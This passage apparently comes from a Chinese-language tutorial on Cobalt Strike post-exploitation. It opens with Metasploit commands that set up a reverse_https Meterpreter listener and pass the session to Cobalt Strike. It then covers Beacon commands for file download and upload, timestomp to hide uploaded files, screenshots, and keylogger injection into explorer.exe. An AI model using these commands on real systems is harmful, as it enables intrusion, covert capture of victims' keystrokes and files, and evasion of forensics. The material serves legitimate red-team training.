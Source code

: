 ```

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 192.168.175.156
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > exploit -j
```

随后，在CS中新建一个外部`Foreign`监听器，这里设置的监听IP与端口和MSF中的一致即可，随后在CS中利用`spawn`选择刚新建的外部监听器，MSF中即可返回会话。

### File System

浏览会话系统文件位置在右击会话处，选择 `Explore --> File Browser`即可打开。在这里可以对当前会话下的文件进行浏览、上传、下载、删除等操作。

在进行文件浏览时，如果 beacon 设置的 sleep 值较高，CS会因此而变得响应比较慢。

![image-20220214104914725](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281221465.png)

彩色文件夹表示该文件夹的内容位于此文件浏览器的缓存中；深灰色的文件夹表示该文件夹的内容不在此文件浏览器缓存中。

**文件下载**

- `download`：下载请求的文件。Beacon 会下载它的任务要求获取的每一个文件的固定大小的块。这个块的大小取决于 Beacon 当前的数据通道。HTTP 和 HTTPS 通道会拉取 512kb 的数据块。
- `downloads`：查看当前 Beacon 正在进行的文件下载列表。
- `cancel`：该命令加上一个文件名来取消正在进行的一个下载任务。也可以在 cancel 命令中使用通配符来一次取消多个文件下载任务。

下载文件都将下载到CS团队服务器中，在`View --> Download`下可看到下载文件的记录，选中文件后使用`Sync Files`即可将文件下载到本地。

**文件上传**

- `upload`：上传一个文件到目标主机上。
- `timestomp`：将一个文件的修改属性访问属性和创建时间数据与另一个文件相匹配。当上传一个文件时，有时会想改变此文件的时间戳来使其混入同一文件夹下的其他文件中，使用timestomp 命令就可以完成此工作。

### 用户驱动溢出攻击

Beacon 运行任务的方式是以`jobs`去运行的，比如键盘记录、PowerShell 脚本、端口扫描等，这些任务都是在 beacon check in 之间于后台运行的。

- `jobs`：查看当前 Beacon 中的任务
- `jobkill`：加上任务 ID，对指定任务进行停止

**屏幕截图**

- `screenshot`：获取屏幕截图，使用`screenshot pid`来将截屏工具注入到一个 x86 的进程中，使用`screenshot pid x64`注入到一个 x64 进程中，explorer.exe 是一个不错的候选程序。 使用`screenshot [pid] [x86|x64] [time]`来请求截屏工具运行指定的秒数，并在每一次 Beacon 连接到团队服务器的时候报告一张屏幕截图，这是查看用户桌面的一种简便方法。要查看截屏的具体信息，通过`View --> Screenshots`来浏览从所有 Beacon 会话中获取的截屏。

**键盘记录**

- `keylogger`：键盘记录器，使用`keylogger pid`来注入一个 x86 程序。使用`keylogger pid x64`来注入一个 x64 程序，explorer.exe 是一个不错的候选程序。 使用单独的 keylogger 命令来将键盘记录器注入一个临时程序。键盘记录器会监视从被注入的程序中的键盘记录并将结果报告给 Beacon，直到程序终止或者自己杀死了这个键盘记录后渗透任务。要查看键盘记录的结果，可以到`View --> Keystrokes`中进行查看。

  ![image-20240228123808776](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281238859.png)

**其他**

除了上述使用命令的方式进行屏幕截图和键盘记录，也可以来到`Explore --> Process List`下选择要注入的进程，再直接点击屏幕截图或键盘记录的功能按钮。

```